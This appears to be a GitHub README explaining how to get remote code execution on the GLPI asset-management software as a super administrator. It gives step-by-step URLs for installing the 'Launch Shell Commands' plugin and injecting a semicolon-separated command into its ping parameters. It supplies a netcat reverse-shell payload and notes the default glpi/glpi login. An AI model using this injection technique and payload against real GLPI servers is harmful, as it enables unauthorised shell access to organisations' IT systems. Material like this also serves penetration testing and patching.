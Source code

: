 # GLPI-RCE-Authenticated
How to RCE as a glpi administrator

``
Gestionnaire Libre de Parc Informatique (GLPI) is a Free Asset and IT Management Software package, that provides ITIL Service Desk features, licenses tracking and software auditing.
``

https://github.com/glpi-project/glpi

## Requirements

You need to be super administrator of glpi to add the plugin and perform the rce.<br>The default login is **glpi / glpi**

## Exploitation 

The technique consists in using a plugin which allows to execute commands on the system like ping or tracert and to divert it towards the reverse shell for example.


Initially you must add a key "GLPI network" in the general parameters of glpi what gives the rights to add extensions, you have just to create an account for free on the site of glpi and to copy paste the key.

![](https://i.imgur.com/CuNnAFw.png)

![](https://i.imgur.com/o4HQRnH.png)

in the Marketplace : ``/glpi/front/marketplace.php``<br>
Add the plugin named "Launch Shell Commands"

![](https://i.imgur.com/HO9rTMo.png)

Edit the ping command page : ``/glpi/marketplace/shellcommands/front/shellcommand.form.php?id=1``

Enter a random string in the tag and in the parameters you can run anything as a command using a semicolon<br>
You can use this payload for reverse shell :
```sh 
;nc -c /bin/bash localhost 1234
```

It is simply an "exec" of all the arguments there are no filters<br>
We control the variable $commandToExec

![image](https://user-images.githubusercontent.com/69597623/189349689-45af6cd0-9611-4a85-b561-4219da114738.png)

![](https://i.imgur.com/0vuQnGF.png)

Add a ping command group : ``/glpi/marketplace/shellcommands/front/commandgroup.php``

![](https://i.imgur.com/CKQkOS2.png)

To finish to execute the payload: ``/glpi/marketplace/shellcommands/front/advanced_execution.php``<br>
Select the ping command group, a category and a device from the list (if you don't have one you can create one in Assets)

![](https://i.imgur.com/3ZnE7eJ.png)
![](https://i.imgur.com/zlns3aD.png)

